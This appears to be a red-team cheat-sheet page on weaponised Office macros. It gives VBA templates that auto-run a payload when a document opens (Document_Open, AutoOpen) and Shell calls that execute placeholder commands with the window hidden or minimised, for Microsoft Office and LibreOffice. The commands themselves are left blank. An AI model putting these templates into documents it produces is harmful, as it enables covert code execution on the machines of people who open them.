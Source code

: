 # Office Macros

> [!INFO] Limited String Characters
> VBA Macro has a 50 characters string limit so you have to concatenate it. Use [[Macro Formatting Scripts|scripts]] to split the chunks.

## 01 - Execute Macros When Enabled

Base template when macro is being executed.

```vb
Sub Document_Open()
    Call Payload
End Sub

Sub AutoOpen()
    Call Payload
End Sub
```

## 02 - Microsoft Office

Execute the command while hiding the window.

```vb
Sub ExecuteCommands()
	Shell("<commands>", vbHide)
End Sub
```

Execute the command while minimizing the window.

```vb
Sub ExecuteCommands()
	Shell("<commands>", vbMinimizeFocus)
End Sub
```

## 03 - Libreoffice

```vb
Sub ExecuteCommands()
	Shell("<commands>", 2)
End Sub
```

---
## References

### Backlinks

- [[Document Templates]]

### LibreOffice

- [LibreOffice: `Shell` Function](https://help.libreoffice.org/latest/lo/text/sbasic/shared/03130500.html?DbPAR=BASIC)

### Null Byte

- [Null Byte: How to Place a Virus in a Word Document for Mac OS X](https://null-byte.wonderhowto.com/how-to/place-virus-word-document-for-mac-os-x-0170169/)